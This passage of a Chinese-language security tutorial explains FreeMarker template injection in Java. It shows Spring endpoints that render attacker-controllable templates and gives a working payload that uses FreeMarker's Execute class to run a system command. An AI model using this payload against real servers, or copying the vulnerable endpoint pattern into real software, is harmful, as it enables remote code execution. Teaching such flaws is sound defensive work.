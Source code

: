但是，当api_builtin_enabled为true时才可使用api函数，而该配置在2.3.22版本之后默认为false。
### 模板注入
当使用Template.process渲染模板文件，但内容可控时  
```java
    @RequestMapping("/customTemplate1")
    public String freemarkerCustomTemplate() throws IOException, TemplateException {
        Configuration cfg = new Configuration(Configuration.VERSION_2_3_22);
        freemarker.template.Template temp = cfg.getTemplate("index.ftl");
        StringWriter w = new StringWriter();
        temp.process(new HashMap<>(),w);
        return w.toString();
    }
```
index.ftl
```java
<#assign value="freemarker.template.utility.Execute"?new()>${value("calc")}
```
![](img/16-04-34.png)  
使用StringTemplateLoader动态创建模板进行渲染，其中模板字符串可控。  
```java
    @RequestMapping("/customTemplate1")
    public String freemarkerTemplate(@RequestParam String template) throws IOException, TemplateException {
        Configuration cfg = new Configuration(Configuration.VERSION_2_3_22);
        StringTemplateLoader stringTemplateLoader = new StringTemplateLoader();
        stringTemplateLoader.putTemplate("index",template);
        cfg.setTemplateLoader(stringTemplateLoader);
        freemarker.template.Template temp = cfg.getTemplate("index");
        StringWriter w = new StringWriter();
        temp.process(new HashMap<>(),w);
        return w.toString();
    }
```